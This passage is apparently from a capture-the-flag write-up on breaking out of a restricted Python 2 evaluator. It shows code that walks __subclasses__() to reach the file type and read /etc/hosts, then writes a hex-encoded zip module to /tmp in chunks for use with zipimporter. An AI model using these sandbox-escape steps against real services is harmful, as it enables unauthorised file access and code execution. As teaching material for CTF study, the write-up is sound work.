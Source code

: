 ```
     y
     Return Value: 1337
```
Cool, I can get around the 50 character limit by setting values to `__builtins__`. Lets dig deeper into that `x.__class__` (I didn't get there as quickly as below, but you get the idea. Just use `__base__`, `__bases__`, `__class__`, `__mro__`, `__subclasses__` etc - [read this](http://www.cafepy.com/article/python_attributes_and_methods/python_attributes_and_methods.html)):
```
	 x.__class__
     Return Value: <type 'NoneType'>
     x.__class__.__base__
     Return Value: <type 'object'>
     x.__class__.__base__.__subclasses__
     Return Value: <built-in method __subclasses__ of type object at 0x88cd40>
     x.__class__.__base__.__subclasses__()
     Return Value: [<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>,...
```
Ok, I have a long list of values there, but now I have to find out if I can use them to get a shell. Some special values I noticed were:&nbsp;<type 'file'>,&nbsp;<type 'module'>, <type 'zipimport.zipimporter'>. Lets look at file first:
```
     #setup variable 'w' to access the values
     __builtins__['ww']=().__class__.__base__
     __builtins__['w']=ww.__subclasses__()
     # file
     w[40]
     # open a file
     w[40]('/etc/hosts').read()
     # write to a file
     w[40]('test','w').write('test string')
     Exception: [Errno 13] Permission denied: 'test'
     # lets try somewhere else
     w[40]('/tmp/test','w').write('test string')
     # read it back
     w[40]('/tmp/test').read()
```
Cool. Too bad we don't know the name of the key file (otherwise we could just read it in). Lets look at <module> next:
```
     w[47]
     Return Value: <type 'module'>
     w[47]('os')
     Return Value: <module 'os' (built-in)>
     w[47]('os').system
     Exception: 'module' object has no attribute 'system'
```
Yeah, I tried for a long time, but couldn't get it to create a useful object. Lets move on to [zipimporter](http://docs.python.org/2/library/zipimport.html). It looks like we should be able to read in a zip file containing a python module. The next step is figuring out how to get a zip onto the server. Remember that we can write arbitrary files to /tmp, and that python can write arbitrary bytes in strings with its escape sequence. This means we can do this:
```
     #the zip file in hex
     50 4b 03 04 14 03 00 00 08 00 ce ad a4 42 5e 13 60 d0 22 00 00 00 23 00 00 00 04 00 00 00 7a 2e 70 79 cb cc 2d c8 2f 2a 51 c8 2f e6 2a 28 ca cc 03 31 f4 8a 2b 8b 4b 52 73 35 d4 93 13 4b 14 b4 d4 35 b9 00 50 4b 01 02 3f 03 14 03 00 00 08 00 ce ad a4 42 5e 13 60 d0 22 00 00 00 23 00 00 00 04 00 00 00 00 00 00 00 00 00 20 80 a4 81 00 00 00 00 7a 2e 70 79 50 4b 05 06 00 00 00 00 01 00 01 00 32 00 00 00 44 00 00 00 00 00
     #save it to strings in 7 byte chuks
     __builtins__['a']='\x50\x4b\x03\x04\x14\x03\x00'
     __builtins__['b']='\x00\x08\x00\xce\xad\xa4\x42'
     ...
     __builtins__['t']='\x00\x44\x00\x00\x00\x00\x00'
```
